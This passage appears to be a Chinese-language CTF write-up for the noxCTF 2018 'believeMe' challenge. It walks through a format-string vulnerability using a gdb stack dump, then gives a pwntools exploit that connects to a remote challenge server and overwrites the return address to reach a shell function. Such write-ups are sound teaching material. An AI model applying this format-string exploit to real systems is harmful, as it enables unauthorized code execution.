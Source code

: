 当时就卡在这里没绕出去，经过队友提醒能不能改return地址，才发现思路走偏了

我们gdb把断点下在printf调试一下，先查看下堆栈

```bash
gdb-peda$ stack 30
0000| 0xffffcf1c --> 0x80487d8 (<main+129>:	add    esp,0x10)
0004| 0xffffcf20 --> 0xffffcf44 ("aaaa%21$x")
0008| 0xffffcf24 --> 0x804890c --> 0xa ('\n')
0012| 0xffffcf28 --> 0xf7fb45a0 --> 0xfbad2288 
0016| 0xffffcf2c --> 0x8f17 
0020| 0xffffcf30 --> 0xffffffff 
0024| 0xffffcf34 --> 0x2f ('/')
0028| 0xffffcf38 --> 0xf7e0edc8 --> 0x2b76 ('v+')
0032| 0xffffcf3c --> 0xffffd024 --> 0xffffd201 ("/home/Ep3ius/pwn/process/noxCTF2018/believeMe/believeMe")
0036| 0xffffcf40 --> 0x8000 
0040| 0xffffcf44 ("aaaa%21$x")
0044| 0xffffcf48 ("%21$x")
0048| 0xffffcf4c --> 0xf7000078 
0052| 0xffffcf50 --> 0x1 
0056| 0xffffcf54 --> 0x0 
0060| 0xffffcf58 --> 0xf7e30a50 (<__new_exitfn+16>:	add    ebx,0x1835b0)
0064| 0xffffcf5c --> 0x804885b (<__libc_csu_init+75>:	add    edi,0x1)
0068| 0xffffcf60 --> 0x1 
0072| 0xffffcf64 --> 0xffffd024 --> 0xffffd201 ("/home/Ep3ius/pwn/process/noxCTF2018/believeMe/believeMe")
0076| 0xffffcf68 --> 0xffffd02c --> 0xffffd239 ("XDG_SEAT_PATH=/org/freedesktop/DisplayManager/Seat0")
0080| 0xffffcf6c --> 0xed1acd00 
0084| 0xffffcf70 --> 0xf7fb43dc --> 0xf7fb51e0 --> 0x0 
0088| 0xffffcf74 --> 0xffffcf90 --> 0x1 
0092| 0xffffcf78 --> 0x0 
0096| 0xffffcf7c --> 0xf7e1a637 (<__libc_start_main+247>:	add    esp,0x10)
--More--(25/30)
0100| 0xffffcf80 --> 0xf7fb4000 --> 0x1b1db0 
0104| 0xffffcf84 --> 0xf7fb4000 --> 0x1b1db0 
0108| 0xffffcf88 --> 0x0 
0112| 0xffffcf8c --> 0xf7e1a637 (<__libc_start_main+247>:	add    esp,0x10)
0116| 0xffffcf90 --> 0x1 
```

我们可以看到在偏移112处return地址为0xFFFFCF8C，我们找到了一个与它偏移相近的并且能被泄露出来的地址，因为题目说了(No ASLR) ，所以return的地址是不会变化，我们可以先连上一次得到return地址构造payload来getflag

(这里有一个挺坑的地方就是你在本地复现时终端运行得到地址和用pwntools得到的地址可能不一样，这块我还是不懂是什么原理，希望知道的师傅能讲一下学习一波。)

EXP

```python
from pwn import*
context(os='linux',arch='i386')#,log_level='debug')
#n = process('./believeMe')
n = remote('18.223.228.52',13337)

shell_addr = 0x804867b
#ret_addr = 0xffffd030 - 0x4
ret_addr = 0xffffdd30 - 0x4
payload = fmtstr_payload(9,{ret_addr:shell_addr},write_size='short')
n.recvuntil('But......... how ????')
#n.sendline('%21$x')
n.sendline(payload)
n.interactive()
```
